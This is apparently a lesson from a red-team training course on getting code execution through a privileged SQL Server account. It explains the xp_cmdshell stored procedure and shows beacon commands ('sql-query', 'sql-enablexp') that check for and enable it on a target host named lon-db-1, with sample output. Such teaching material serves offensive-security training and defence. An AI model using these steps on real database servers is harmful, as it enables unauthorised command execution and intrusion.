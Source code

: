
We may run into a scenario where we have access to one or more user accounts that do not have local admin privileges on the SQL server itself, but they do have a privileged SQL role, such as sysadmin.  There are multiples techniques by which we can abuse that access get code execution on the server via the SQL instance.

Unfortunately, there's not much we can do to abuse a SQL instance without sysadmin privileges.  Each of the techniques discussed in this lesson are disabled by default on new SQL server installations, but they can be enabled by a sysadmin.

### xp_cmdshell

The `xp_cmdshell` stored procedure is probably the most well known method for executing commands via a SQL server.  It spawns a command shell, passes the string for execution, and returns any output as rows of text.  The SQL syntax is simply:

```sql
EXEC xp_cmdshell '<command>';
```

> The command string can't contain more than one set of double quotation marks, and a single pair of quotation marks is required if any spaces are present.

First, we query the server to see if xp_cmdshell is already enabled using `sql-query`.

```powershell
beacon> sql-query lon-db-1 "SELECT name,value FROM sys.configurations WHERE name = 'xp_cmdshell'"

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Executing custom query on lon-db-1

name | value | 
---------------
xp_cmdshell | 0 |

[*] Disconnecting from server
```

A value of `0` means it's disabled, so enable it using the `sql-enablexp` command.  This works by running an [sp_configure](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-configure-transact-sql) query.

```powershell
beacon> sql-enablexp lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Toggling xp_cmdshell on lon-db-1...

name | value_in_use | 
----------------------
xp_cmdshell | 1 | 

[*] Disconnecting from server
```
